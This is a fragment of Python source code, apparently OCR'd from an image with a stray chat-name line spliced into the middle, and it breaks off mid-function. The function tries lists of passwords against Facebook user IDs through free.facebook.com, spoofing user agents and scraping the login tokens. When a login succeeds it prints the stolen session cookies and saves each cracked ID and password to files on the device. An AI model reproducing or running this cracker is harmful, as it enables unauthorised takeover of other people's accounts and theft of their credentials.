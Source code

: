 def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),

> Tamim 👀✌🏻:
"m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'free.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=1',
            'cache-control': 'no-cache, no-store, must-revalidate',
            "referer": 'https://t.facebook.com/',
            "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',
            "sec-ch-ua-mobile": '?1',
            "sec-ch-ua-platform": "Windows",
            "sec-fetch-dest": 'document',
            "sec-fetch-mode": 'navigate',
            "sec-fetch-site": 'same-origin',
            "sec-fetch-user": '?0',
            "pragma": 'no-cache',
            "priority": 'u=0',
            'cross-origin-resource-policy': 'cross-origin',
            "upgrade-insecure-requests": '1',
            "user-agent": pro}
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('    \033[1;32m[🆃4🅼1🅼-OK]  ' +cid+ ' | ' +ps+    '  \n \033[1;33mCookie = \033[1;32m'+coki+  ' \n '+pro+'  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/🆃4🅼1🅼-OK.txt', 'a').write( cid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                print('    \33[1;30m[🆃4🅼1🅼-CP] ' +cid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/🆃4🅼1🅼-CP.txt', 'a').write( cid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
